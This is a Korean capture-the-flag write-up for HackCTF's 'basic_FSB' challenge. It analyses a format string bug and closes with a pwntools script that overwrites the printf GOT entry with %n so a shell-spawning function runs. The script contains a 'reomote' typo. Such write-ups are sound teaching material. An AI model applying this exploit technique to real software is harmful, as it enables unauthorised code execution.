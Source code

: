 # HackCTF - basic_FSB

---

![image](https://user-images.githubusercontent.com/33051018/71477083-77fd1180-282b-11ea-91c3-7efb11f9fce9.png)

HackCTF 의 **Basic_FSB**문제다.

문제명에서 알 수 있듯, `Format String Bug` 취약점을 이용하는 문제로 에상된다.

바로 풀어보도록 한다.



#### 문제풀이

---

>바이너리를 다운받고 문제를 풀 환경으로 복사한다.
>
>![image](https://user-images.githubusercontent.com/33051018/71477133-abd83700-282b-11ea-96e4-a7bc9b816898.png)
>
>해당 문제는 32bit ELF 파일이며, 동적 링크방식을 이용한다.
>
>![image](https://user-images.githubusercontent.com/33051018/71477341-cf4fb180-282c-11ea-8e04-c75d14869fb0.png)
>
>또한 아무런 보호기법도 적용되지 않았다.
>
>![image](https://user-images.githubusercontent.com/33051018/71477371-eababc80-282c-11ea-9e7e-968df2a6366b.png)
>
>일단 실행을 시켜보았다.
>
>`input :` 이라는 문자열을 출력한 뒤 ,값을 입력받고 해당 값을 재출력해준다.
>
>![image](https://user-images.githubusercontent.com/33051018/71477414-366d6600-282d-11ea-80f1-e2b13188daac.png)
>
>메인 구성은 매우 간단했다.
>
>버퍼를 설정한 뒤, `vuln()` 함수를 호출한다.
>
>![image](https://user-images.githubusercontent.com/33051018/71477425-4be29000-282d-11ea-8f6d-78dd976137ab.png)
>
>앞서 실행했을 때 확인할 수 있었던 `input : `이라는 문자열을 출력한뒤
>
>1024 바이트의 길이만큼 입력받아 `s`변수에 저장한다.
>
>`snprintf` 함수의 메뉴얼은 아래와 같다.
>
>![image](https://user-images.githubusercontent.com/33051018/71477447-7cc2c500-282d-11ea-813e-412e00bf678d.png)
>
>`snprintf`를 통해 값을 `0x400`크기 만큼 입력받고, `return`을 할 때 이용되는 함수가 `printf`함수임을 알 수 있다.
>
>따라서 우리는`return addr`를 조작하여 printf 함수가 실행되는 부분의 흐름을 조작할 수 있다.
>
>또한, `flag`라는 이름을 가진 함수도 발견할 수 있었다.![image](https://user-images.githubusercontent.com/33051018/71477494-ce6b4f80-282d-11ea-8a04-80e6da3b4c68.png)
>
>일련의 문자열을 출력한 뒤, 쉘을 열어준다.
>
>![image](https://user-images.githubusercontent.com/33051018/71477546-fa86d080-282d-11ea-8faa-ee42b0e3f65b.png)
>
>해당 함수의 위치는 `0x80485B4` 였다.
>
>시나리오는 아래와 같다.
>
>>1. Format String의 현재 커서 위치를 확인한다.
>>2. printf got값을 입력하여 flag 주소값 크기만큼 출력한다.
>>3. printf got를 입력한 부분을 가리키는 부분에 %n을 입력하여 출력한 바이트 수를 넣어준다.
>>4. 그 이후 printf가 실행될 시점에 flag가 실행된다.
>
>
>
>일단 Format String의 위치를 확인하도록 한다.
>
>![image](https://user-images.githubusercontent.com/33051018/71477712-cfe94780-282e-11ea-8e2e-efc20d43ae7b.png)
>
>파일을 실행시키고 `aaaa %p %p %p %p %p`를 전달하였더니, 
>
>두번째 포맷스트링에서 입력한 값이 출력되는걸 알 수 있다.
>
>**즉, 두번째에 들어가는 포맷스트링에는 처음 입력한 4바이트를 포인팅한다는 것을 알 수 있다.**
>
>그렇다면 첫번째 인자를 이용해 flag의 주소 값 만큼 출력하고 두번째 인자로 %n을 이용해 값을 넣을수 있도록 조정한다.
>
>```python
>from pwn import *
>p = reomote('ctf.j0n9hyun.xyz', 3002)
>#p = process('./basic_fsb')
>
>flag = 0x80485B4
>printf_got = 0x804A00C
>
>payload = p32(printf_got)
>payload += '%134514096x' # hex to dec(flag)
>payload += '%n'
>
>p.recvuntil('input :')
>p.sendline(payload)
>
>p.interactive()
>```
>
>
>
>![image](https://user-images.githubusercontent.com/33051018/71478370-90bcf580-2832-11ea-8a1e-4bfbc833bb62.png)
>
>